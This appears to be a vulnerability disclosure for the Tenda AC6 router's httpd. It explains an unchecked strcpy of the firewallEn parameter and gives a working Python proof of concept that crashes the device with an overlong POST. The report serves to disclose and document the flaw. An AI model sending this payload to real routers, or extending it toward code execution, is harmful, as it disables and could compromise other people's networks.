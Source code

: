 # Information



Vendor of the products:  Shenzhen Jixiang Tenda Technology Co., Ltd.

Vendor's website:  [Homepage_Tenda Global(English)](https://www.tendacn.com/)

Reported by:   b55t4ck(2640807724@qq.com)

Affected products: Tenda  AC6

Affected firmware version: v2.0_V15.03.06.51

Firmware download address:  https://www.tendacn.com/material/show/103794



# Overview

Tenda AC6 is a wireless router from China's Tenda company.

During analysis of the /bin/httpd binary, it was discovered that the firewallEn parameter in the formSetFirewallCfg function directly accepts client data through websGetVar without any length validation. This vulnerability allows users to crash the program by constructing overly long strings, rendering it inoperable, and also enables attackers to craft carefully prepared payloads to achieve arbitrary command execution.

# Vulnerability details

Analysis of the /bin/httpd binary in IDA revealed that after obtaining values from user input through the webGetVar function, the program calls the strcpy function at line 55 to directly copy the user-supplied firewallEn parameter content into the firewall_buf variable. Since firewall_buf is a fixed-length array and the program lacks input length restrictions, this results in a buffer overflow vulnerability.

![image-20250831182316062](https://b55t4ck.oss-cn-shenzhen.aliyuncs.com/image/202508311823079.png)

![image-20250831182213556](https://b55t4ck.oss-cn-shenzhen.aliyuncs.com/image/202508311822585.png)



Due to the absence of corresponding symbol tables and the target device, it is not possible to perform deeper debugging using GDB in this context. Otherwise, it would be feasible to construct shellcode or ROP chains to obtain shell access, potentially causing more severe security implications.

# POC

```python
from pwn import *
import requests

url = "http://192.168.1.100/goform/SetFirewallCfg"
cookie = {"Cookie": "password=b55t4ck"}


data = {
	"firewallEn":cyclic(1024)
        }


headers = {
    "Content-Type": "application/x-www-form-urlencoded"
}


try:
    response = requests.post(url, cookies=cookie, data=data, headers=headers)
    print(response.text)
except requests.exceptions.RequestException as e:
    print(f"Request failed: {e}")


```

# Effect Demonstration

After executing the corresponding Python script, the program crashes as expected.

![image-20250831182527415](https://b55t4ck.oss-cn-shenzhen.aliyuncs.com/image/202508311825463.png)